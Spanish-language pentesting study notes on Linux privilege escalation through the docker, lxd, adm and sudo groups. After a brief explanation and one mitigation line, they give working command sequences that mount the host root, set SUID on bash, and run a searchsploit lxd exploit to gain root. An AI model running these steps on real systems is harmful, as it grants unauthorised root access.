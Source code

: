 # Abuso de grupos de usuario especiales

Tags: #Linux #GruposExpeciales  #Escalada #Root #Privilegios 

En el contexto de Linux, los **grupos** se utilizan para **organizar** a los usuarios y **asignar** **permisos** para acceder a los recursos del sistema. Los usuarios pueden pertenecer a uno o varios grupos, y los grupos pueden tener diferentes niveles de permisos para acceder a los recursos del sistema.

Existen grupos especiales en Linux, como ‘**lxd**‘ o ‘**docker**‘, que se utilizan para permitir a los usuarios ejecutar contenedores de manera segura y eficiente. Sin embargo, si un usuario malintencionado tiene acceso a uno de estos grupos, podría aprovecharlo para obtener privilegios elevados en el sistema.

Por ejemplo, si un usuario tiene acceso al grupo ‘**docker**‘, podría utilizar la herramienta Docker para desplegar nuevos contenedores en el sistema. Durante el proceso de despliegue, el usuario podría aprovecharse de las **monturas** (**mounts**) para hacer que ciertos recursos inaccesibles en la máquina host estén disponibles en el contenedor. Al ganar acceso al contenedor como usuario ‘**root**‘, el usuario malintencionado podría inferir o manipular el contenido de estos recursos desde el contenedor.

Para mitigar el riesgo de abuso de grupos de usuario especiales, es importante limitar cuidadosamente el acceso a estos grupos y asegurarse de que sólo se asignan a usuarios confiables que realmente necesitan acceder a ellos.


## Grupos Especiales 

```bash 
❯ id                     # Para ver a que grupos estamos asignados 

# Grupos especiales: 
	# sudo = Si estas en estre grupo y disponemos de la passwd del usuario, podemos ejecutar comandos como el usuario 'root'


	# docker = Si estas en este grupo puedes usar los sig. comandos (docker images, docker ps, docker pull ubuntu:latest)
		❯ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu # Desplegaremos un contenedor con una montura de la raiz actual y que la monte en el dir /mnt/root del contenedor
		❯ docker exec -it privesc bash # Para ingresar al contenedor y que nos de una bash para poder ver todos los recursos  
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima del usuario fuera del contenedor ya que como hicimos una copia de la raiz del usuario legitimo, todo lo que hagamos dentro del contenedor sera reflejado afuera de el
		❯ ls -l /bin/bash              # Listar los permisos de la bash 
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID


	# adm = Si estas en este grupo, podras leer los logs del sistema
		❯ ls -l /var/log/
		❯ cat /var/log/apache2/access.log


	# lxd = Si estas en este grupo, puedes escalar por medio de monturas, utilizando el exploit 
		❯ gpasswd -d <user> lxd   # Borrar el grupo lxd de la maquina  
		❯ searchsploit lxd
		❯ searchsploit -m 46978.sh 
		# Descargas la imagen de Alpine, la url esta dentro del script 
		❯ bash build-alpine    # Aclarar que lo debemos de hacer en la maquina de atacante porque nos pide ser root y despues transferimos a la victima lo sig: (privesc.sh, alpine-v3.17-x86_64.tar.gz)
		❯ ./privesc.sh -f alpine-v3.17-x86_64.tar.gz   # Por defecto nos creara un contenedor y nos dara una consola como root dentro del contenedor
		❯ chmod u+s bash               # Dentro del contenedor podemos asignar SUID a la bash y este sera reflejada a la bash legitima
		❯ ls -l /bin/bash              # Listar los permisos de la bash
		❯ bash -p                      # Solicitamos la bash con privilegio temporal fuera del contenedor, ya que es una bash SUID
	
```

